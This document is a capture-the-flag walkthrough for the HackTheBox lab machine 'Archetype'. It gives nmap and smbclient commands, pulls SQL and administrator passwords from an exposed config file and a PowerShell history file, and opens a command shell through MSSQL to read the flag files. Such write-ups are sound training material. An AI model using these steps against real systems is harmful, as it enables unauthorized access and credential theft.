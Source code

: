 # **HackTheBox Archtype**
## Windows MySQL

### Basic Information
Machine IP: **10.10.10.27**
Type: **Windows**

### Step 1: Footprinting

Use nmap to enumerate the machine.
```
nmap -sS -sV -sC 10.10.10.27
```
Results:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 11:35 EDT
Nmap scan report for 10.10.10.27
Host is up (0.25s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-06-10T15:51:45
|_Not valid after:  2051-06-10T15:51:45
|_ssl-date: 2021-06-10T15:58:36+00:00; +22m54s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h46m53s, deviation: 3h07m50s, median: 22m52s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-10T08:58:22-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-10T15:58:25
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.70 seconds
```

Since ports 445 and 1433, which are linked to SMB and SQL Server, are opened.

### Step 2: Search Samba Shares

First check the samba shares.

```
smbclient -L //10.10.10.27
```
Enter the password with nothing to check for annonymous access.

Results:
```
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

```

Now access the share backups and list the files.

```
smbclient //10.10.10.27/backups
ls
```

Results:
```
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8248188 blocks available
```

Download the file into your own machine and see it's contents.

```
get prod.dtsConfig
exit
cat prod.dtsConfig
```

Results:
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>      
```

Notice the Password=M3g4c0rp123 and User ID=ARCHETYPE\sql_svc

### Step 3: Login to the SQL Server

Head over to https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py and change the following details:

```
MSSQL_SERVER="10.10.10.10"
MSSQL_USERNAME = "Domain\\sa_user"
MSSQL_PASSWORD = "**********"
```

to 

```
MSSQL_SERVER="10.10.10.27"
MSSQL_USERNAME = "ARCHETYPE\sql_svc"
MSSQL_PASSWORD = "M3g4c0rp123"
```

Now run the script

```
python3 mssql_shell.py
```

Run a whoami to find out the current user:

Results:
```
CMD sql_svc@ARCHETYPE C:\Windows\system32> whoami
archetype\sql_svc
```

Head to directory C:\Users\sql_svc\Desktop\ and display the user.txt file

```
cd C:/
cd Users\sql_svc\Desktop\
more user.txt
```

### Step 4: Privilege Escalation

Now, head over to C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline and display the ConsoleHost_history.txt file

Results:
```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

username: administrator password: MEGACORP_4dm1n!!

Now, go to back to the samba shares and login with these details.

```
smbclient \\10.10.10.27\C$ -U administrator 
```

Login with the password above.

Head to \Users\administrator\desktop\ and display the root.txt file.

```
cd users\administrator\desktop\
more root.txt
```
